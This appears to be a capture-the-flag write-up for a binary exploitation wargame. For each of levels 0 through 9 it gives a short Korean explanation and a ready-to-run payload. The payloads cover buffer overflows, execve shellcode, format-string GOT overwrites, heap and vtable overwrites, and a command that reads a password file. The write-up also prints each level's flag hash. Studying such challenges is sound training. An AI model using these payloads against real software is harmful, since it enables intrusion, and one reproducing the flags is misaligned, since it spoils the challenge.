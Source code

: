 > level0 - level0

> level1 - 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

```shell
(gdb) print ($ebp + 4) - ($esp + 0x10)
result: 76

$ cat <(python -c 'print "A" * 76 + "\x44\x84\x04\x08",') - | ./level1
cat /home/user/level2/.pass
```


> level2 - 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

```bash
cat <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A" * 52)  + "\x08\xa0\x04\x08"') - | ./level2
```

대부분의 메모리 영역(스택, 동적 라이브러리)이 0xb???????위치에 존재하는데, 이 위치에서의 실행을 막는 코드가 내장되어있다. 따라서 malloc의 매핑 주소(코드 상의 \x08\xa0\x04\x08 부분)에 shellcode를 주입하는 방식으로 해결

> level3 - 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

printf의 첫 번째 인자가 우리가 직접 넣어줄 수 있는 문자열이다.
따라서 printf의 %n 모디파이어를 이용해서 특정 주소의 쓰기 작업이 가능하다

```bash
cat <(python -c 'print "\x8c\x98\x04\x08%020p%020p%020p%n",') - | ./level3
```

> level4 - b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

이전 레벨과 비슷하지만 nasted 함수 호출이 있어서 그걸 이용하여 안쪽 함수에서 ret 위치를 cmp부분을 건너 띈 위치로 조작하였다. 이때 매모리 주소가 매우 높아서 %n으로 전체 4바이트 값을 넣기 힘드므로 length modifier hh(%hhn)를 사용해서 맨 끝 1바이트만 조작했다.

```bash
python -c 'print "\xdc\xf4\xff\xbf%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%0149u%hhn",' | ./level4
```

> level5 - 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

이전 레벨과 비슷하게 printf를 이용하는 문제이다. 다만 모든 함수 호출에서 return 대신 exit을 하는 것을 볼 수 있는데.
exit의 got를 o라는 쉘을 호출해주는 함수의 주소로 조작하면 된다.

```bash
cat <(python -c 'print "\x38\x98\x04\x08%.0s%.0s%033952x%hn",') - | ./level5
```

> level6 - d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

strcpy의 buffer overflow를 이용해서 잘못된 함수 포인터를 넣을 수 있다.

```bash
./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08",')
```

> level7 - f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

malloc을 총 4번 실행하는데, 대충

```c
struct test {
    int dummy;
    char *p;
}

a = malloc(sizeof(struct test));
b = malloc(STRING_SIZE);
a->p = b;

c = malloc(sizeof(struct test));
d = malloc(STRING_SIZE);
c->p = d;
```
과 같은 순서로 할당한다.
이때 매모리 상에서의 순서가 a -> b -> c -> d가 되므로,

첫번째 strcpy(dst는 b위치에 있음)에서 c->p위치를 덮어쓸 수 있다.

이 위치를 puts의 GOT로 덮어 쓴 다음에

두 번째 strcpy에서 함수 m의 위치를 복사하면 된다.

```bash
/level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08",') $(python -c 'print "\xf4\x84\x04\x08",')
```

> level8 - 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

배열크기를 초과한 위치를 참조하는 것을 이용했다.

```bash
cat <(printf "auth .\nservice0123456789012345\nlogin\n") - | ./level8
```

> level9 - c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

memcopy를 인자에서 받아서 실행하는데, vtable을 덮어써서 쉘코드를 실행시킬 수 있다.

```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A" * 76) + "\x0c\xa0\x04\x08",')
```

> bonus0 - f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

